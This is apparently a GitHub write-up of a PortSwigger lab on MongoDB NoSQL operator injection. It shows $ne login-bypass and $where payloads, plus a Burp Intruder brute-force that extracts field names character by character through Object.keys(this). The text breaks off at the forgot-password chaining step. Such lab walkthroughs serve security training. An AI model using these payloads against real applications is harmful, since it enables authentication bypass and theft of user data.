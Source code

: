 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dc5af3c6-623e-490f-b857-cf1b1c2f9eaa)

## Overview :

#### Identifying field names

Because MongoDB handles semi-structured data that doesn't require a fixed schema, you may need to identify valid fields in the collection before you can extract data using JavaScript injection. 

For example, to identify whether the MongoDB database contains a **password** field, you could submit the following payload:
```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the **username field exists**, so you could send the following payloads:
```
admin' && this.username!='
```

```
admin' && this.foo!='
```

> **If the password field exists, you'd expect the response to be identical to the response for the existing field (username)**, but different to the response for the field that doesn't exist (foo). 

#### Exploiting NoSQL operator injection to extract data ?

_Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself_. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via `this` operator.

#### Extracting field names

If you have injected an operator that enables you to run JavaScript, you may be able to use the `keys()` method to extract the name of data fields. For example, you could submit the following payload:
```nosql
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

> This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character. 

## Solution :

Try to login with carlos & some random password. The following is hte request being sent.

```http
POST /login HTTP/1.1
Host: 0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
Connection: close
Cookie: session=Io6bfEgzmpTHn5IecCSuPDjHLIcB4DhP
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
"username":"carlos",
"password":"asfd"
}
```

Modify the request by adding `{"$ne" : "invalid"}` in the password field & see if we can bypass the login of carlos.
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"}
}
```
But we get a response saying that **Account is locked.Please reset the password**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b5bcbf79-75cf-4d87-b263-a43a2dabc518)

#### Injecting $where operator in JSON body -

- Injecting `"$where" : "1"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "1"
}
```
**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/80d73400-e5a0-4a74-9560-3c40deefdfa7)

Here we get **Account locked** in response.

- Injecting `"$where" : "0"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "0"
}
```

**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d5eeff0-4a3e-4c7f-83d1-313c73458187)

Here we get a different response - **Invalid username/password.**

### Extracting available field names -

Send the above request to repeater.

- Replace the `$where` parameter with this `"$where":"Object.keys(this)[0].match('^.{}.*')"` .
- Add 2 payload positions to bruteforce - `"$where":"Object.keys(this)[0].match('^.{§§}§§.*')"`

> 1. `"$where"`: This is a key in a JSON object, and it seems to be used to define a condition or filter.
>
> 2. "`Object.keys(this)[0]"`: This part of the expression is JavaScript code, not a regular expression. It's using the **Object.keys(this)** function to get an array of keys of the current object (this), and then [0] is used to access the first key in that array. So, it's essentially accessing the first key in the current object.


Set Attack Type - Cluster Bomb
Payload 1 - Numbers from 0-20
Payload 2 - Simple list - `a-z`, `A-Z`, `0-9`

Once the attack is over, sort **Payload1** & **Length** to find the **1st key field which is `id`**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/792074ba-5a58-430f-9b76-23c17a75077c)

- Repeat the attack by changing hte position from 1 to 2 in the array - `"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"`

This time we got the **value of 2nd key - `username`**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c8d30d90-4167-4e8e-bf94-1990e741ab8c)

- Repeat the process for **3nd key field**, we got the value of 3rd field as - `password`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/53a08b01-c3ee-4244-9967-0ba625bd74f2)

### Chaining the exploit -

So where can we use the following fields which we identified? Possibly the **forgot-password** request.

Send the *GET /forgot-password* request to repeater.
